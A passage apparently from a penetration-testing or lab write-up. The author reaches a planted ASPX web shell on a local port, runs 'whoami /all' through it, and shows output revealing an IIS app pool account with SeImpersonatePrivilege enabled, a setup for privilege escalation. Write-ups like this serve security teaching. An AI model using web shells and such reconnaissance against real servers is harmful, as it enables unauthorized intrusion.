 ```shell
http://127.0.0.1:65432/cmdasp.aspx
```

We can run the following command there and see what we get:

```shell
whoami /all
```

```shell
User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                   
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                          Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                           Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.
```